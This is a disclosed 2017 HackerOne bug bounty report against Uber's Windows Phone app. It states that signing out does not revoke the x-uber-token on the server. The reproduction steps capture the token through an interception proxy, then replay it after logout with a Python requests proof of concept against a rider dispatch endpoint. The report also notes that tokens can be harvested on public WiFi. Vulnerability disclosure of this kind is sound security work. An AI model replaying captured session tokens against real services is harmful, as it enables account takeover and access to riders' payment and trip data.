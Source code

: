 # The Microsoft Store Uber App Does Not Implement Server-side Token Revocation

## Report Details
- **Report ID**: 293363
- **URL**: https://hackerone.com/reports/293363
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-11-28T03:54:00.571Z
- **Disclosed**: 2017-12-24T20:16:44.836Z

## Reporter
- **Username**: gregoryvperry
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
## Summary
The Microsoft Store Uber App (Windows Phone Architecture) does not properly revoke or expire a rider's x-uber-token upon app signout.

## Security Impact
When a user logs out/signs off of the app, the logout process is handled only locally on the application side, and without any type of x-uber-token revocation or expiration at the Uber customer endpoint. This results in the x-uber-token still being active even after a user has logged out, giving an attacker the ability to access and/or modify all aspects of an Uber Rider's (and potentially Driver's) customer information.

## Reproduction Steps
1. Login using the Microsoft Store Uber App with an interception proxy to capture the session data. Make a note of the issued x-uber-token.
2. Logout of the Microsoft Store Uber App.
3. Using the Python POC code below, gain access to the Rider Dispatch View using the x-uber-token issued from Step 1 above:

-----

import requests

response = requests.get(
    'https://cn-sjc1.uber.com/rt/riders/1ad0f5c1-1ac0-4c2c-a34a-36f267d7ae6f/dispatch-view',
    headers={                                                                      'accept-encoding': 'gzip, '
                                                                                              'deflate',
                                                                           'accept-language': 'en; '
                                                                                              'q=1.0, '
                                                                                              'fr; '
                                                                                              'q=0.9, '
                                                                                              'de; '
                                                                                              'q=0.8, '
                                                                                              'zh-Hans; '
                                                                                              'q=0.7, '
                                                                                              'zh-Hant; '
                                                                                              'q=0.6, '
                                                                                              'ja; '
                                                                                              'q=0.5',
                                                                           'charset': 'utf-8',
                                                                           'user-agent': 'client/windows-phone/0.0.0.',
                                                                           'x-uber-client-name': 'client',
                                                                           'x-uber-client-version': '6.2.8',
                                                                           'x-uber-device': 'windows-phone',
                                                                           'x-uber-device-epoch': '1511637222701',
                                                                           'x-uber-device-language': 'en',
                                                                           'x-uber-device-location-altitude': '100',
                                                                           'x-uber-device-location-latitude': '37.4291076516301',
                                                                           'x-uber-device-location-longitude': '-77.5513191759734',
                                                                           'x-uber-device-model': 'LENOVO '
                                                                                                  '80TJ',
                                                                           'x-uber-device-os': '10.0.16299',
                                                                           'x-uber-token': '5ead9f1ab28780d48f8caa9d41a22973'}
)

print(response.text)

-----

## Specifics
* GregPerry804@gmail.com was the account used for this attack.
* All Uber customer endpoints used by the Microsoft Store Uber App will still accept a x-uber-token as valid, after the user has signed off/logged out of their Microsoft Store Uber App session.

## Impact

An attacker with access to a previously used x-uber-token, even after the user has logged out of the Microsoft Store Uber App, can still modify a rider's profile, access previous trip histories, schedule and/or cancel Uber driver dispatches, and access and/or modify stored payment information.

Driver functionality was not tested. If the Uber Driver role is also implemented within the Microsoft Phone Architecture Uber App, then all functionality encapsulated within the app as relates to driver functionality could be observed and/or modified as well.

Given the lack of certificate pinning in the Microsoft Store Uber App, this vulnerability is not theoretical and with x-uber-tokens easily harvested at public WiFi hotspots where the app is being used.

## Attachments
No attachments
